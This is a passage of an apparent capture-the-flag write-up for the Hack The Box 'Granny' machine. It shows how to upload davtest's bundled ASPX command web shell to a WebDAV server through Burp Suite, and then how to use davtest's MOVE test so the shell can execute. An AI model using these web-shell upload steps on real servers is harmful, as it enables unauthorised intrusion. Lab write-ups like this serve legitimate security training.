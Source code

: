 Davtest actually has some cool stuff built in for us. We could also use msfvenom to generate a reverse shell.

`/usr/share/davtest/backdoors/aspx_cmd.aspx`

So we can just copy that and paste it in the text file:

```
kali@kali:/htb/Granny$ cat /usr/share/davtest/backdoors/aspx_cmd.aspx | xclip -sel clip
```

Here I’m just using xclip to send the cat into my clipboard, and then I simply paste into burpsuite and change the name to cmd_shell.txt:

![](images/6.png)

We get a 201, which means successful.

So now we need to move it into an aspx file.

I run davtest with the -move flag to see how that works:

```
kali@kali:/opt/CrackMapExec$ davtest -url http://localhost/ -move
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://localhost
********************************************************
NOTE    Random string for this session: oakz4lEDY
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://localhost/DavTestDir_oakz4lEDY
********************************************************
 Sending test files (MOVE method)

BLAH BLAH BLAH
********************************************************
 Checking for test file execution
BLAH BLAH BLAH


********************************************************
/usr/bin/davtest Summary:
BLAH BLAH BLAH

Executes: http://localhost/DavTestDir_oakz4lEDY/davtest_oakz4lEDY.txt
```
